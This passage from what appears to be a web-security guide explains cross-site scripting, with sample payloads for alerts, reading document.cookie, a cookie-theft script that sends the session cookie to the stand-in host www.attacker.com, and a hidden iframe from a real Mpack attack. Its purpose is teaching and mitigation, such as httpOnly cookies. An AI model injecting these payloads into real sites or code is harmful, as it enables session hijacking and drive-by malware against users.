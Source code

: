 ```html
<script>alert('Hello');</script>
```

This JavaScript code will simply display an alert box. The next examples do exactly the same, only in very uncommon places:

```html
<img src=javascript:alert('Hello')>
<table background="javascript:alert('Hello')">
```

##### Cookie Theft

These examples don't do any harm so far, so let's see how an attacker can steal the user's cookie (and thus hijack the user's session). In JavaScript you can use the `document.cookie` property to read and write the document's cookie. JavaScript enforces the same origin policy, that means a script from one domain cannot access cookies of another domain. The `document.cookie` property holds the cookie of the originating web server. However, you can read and write this property, if you embed the code directly in the HTML document (as it happens with XSS). Inject this anywhere in your web application to see your own cookie on the result page:

```html
<script>document.write(document.cookie);</script>
```

For an attacker, of course, this is not useful, as the victim will see their own cookie. The next example will try to load an image from the URL http://www.attacker.com/ plus the cookie. Of course this URL does not exist, so the browser displays nothing. But the attacker can review their web server's access log files to see the victim's cookie.

```html
<script>document.write('<img src="http://www.attacker.com/' + document.cookie + '">');</script>
```

The log files on www.attacker.com will read like this:

```
GET http://www.attacker.com/_app_session=836c1c25278e5b321d6bea4f19cb57e2
```

You can mitigate these attacks (in the obvious way) by adding the **httpOnly** flag to cookies, so that `document.cookie` may not be read by JavaScript. HTTP only cookies can be used from IE v6.SP1, Firefox v2.0.0.5, Opera 9.5, Safari 4, and Chrome 1.0.154 onwards. But other, older browsers (such as WebTV and IE 5.5 on Mac) can actually cause the page to fail to load. Be warned that cookies [will still be visible using Ajax](https://owasp.org/www-community/HttpOnly#browsers-supporting-httponly), though.

##### Defacement

With web page defacement an attacker can do a lot of things, for example, present false information or lure the victim on the attackers website to steal the cookie, login credentials, or other sensitive data. The most popular way is to include code from external sources by iframes:

```html
<iframe name="StatPage" src="http://58.xx.xxx.xxx" width=5 height=5 style="display:none"></iframe>
```

This loads arbitrary HTML and/or JavaScript from an external source and embeds it as part of the site. This `iframe` is taken from an actual attack on legitimate Italian sites using the [Mpack attack framework](https://isc.sans.edu/diary/MPack+Analysis/3015). Mpack tries to install malicious software through security holes in the web browser - very successfully, 50% of the attacks succeed.
